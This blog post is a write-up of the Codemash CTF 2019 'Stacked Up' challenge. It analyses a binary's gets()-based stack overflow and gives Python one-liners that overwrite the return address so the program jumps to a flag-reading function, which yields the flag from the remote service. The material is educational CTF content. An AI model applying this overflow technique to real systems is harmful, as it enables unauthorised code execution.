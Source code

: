 ```yaml
---
layout: post
status: publish
published: true
title: Codemash CTF 2019 - Stacked Up
author:
  display_name: John Koerner
  login: admin
  email: blog@johnkoerner.net
  url: ''
author_email: blog@johnkoerner.net
categories:
- codemash
tags:
- codemash
- fun
---
```


Clue
---
A vulnerable service is running here:

`nc whale.hacking-lab.com 5777`

You have the binary of the service. Analyze it, find a vulnerability, and then exploit the server to get the flag!

[stack_binary.zip](/content/stack_binary.zip)

Hint
---
What happens if you input a veeeeeeeeeery long string?


Approach
---
Based on the name of this challenge and the hint, this appears to be a stackoverflow.  I opened this up in IDA and saw the main function code:

```
var_410= qword ptr -410h
var_404= dword ptr -404h
s= byte ptr -400h

push    rbp
mov     rbp, rsp
sub     rsp, 410h
mov     [rbp+var_404], edi
mov     [rbp+var_410], rsi
lea     rdi, s          ; "Input, please! >>----------> "
call    _puts
mov     rax, cs:__bss_start
mov     rdi, rax        ; stream
call    _fflush
lea     rax, [rbp+s]
mov     rdi, rax
mov     eax, 0
call    _gets
lea     rax, [rbp+s]
mov     rdi, rax        ; s
call    _puts
mov     eax, 0
leave
retn
main endp
```

There is also a function called `flag` in the binary, which reads a file called flag.txt:

```
push    rbp
mov     rbp, rsp
sub     rsp, 410h
lea     rsi, modes      ; "r"
lea     rdi, filename   ; "flag.txt"
call    _fopen
```

So our goal is to get this function called. Locally I created a flag.txt and then started hacking on the assembly.  The address for the flag function is `0x0000000000400676`.  Knowing that this is a 64-bit assembly is important to make sure we put the full address into the payload.

Looking at the main assembly, I see that s is allocated `0x400` or 1024 bytes. So I created a text file using a python script and decided to try and completely smash the stack:

`python -c "print '\x76\x06\x40\x00\x00\x00\x00\x00'*200" > payload.txt`

I piped the output of my payload to the local binary and got the contents of my `flag.txt`:

`cat payload.txt | ./stack`

So then I tried with `netcat` and got the result:

`cm19-jUmp-inUP-th3S-tACK`

*Note: After talking with others on this solution, a more targeted python script to overwrite a single instruction would be:

`python -c "print 'a'*1032 + '\x76\x06\x40\x00\x00\x00\x00\x00'" > payload.txt`

The extra 8 bytes move us far enough down the stack to overwrite the return address for the function.



[Return to the full breakdown of the Codemash CTF](/codemash/codemash-ctf-breakdown-2019/)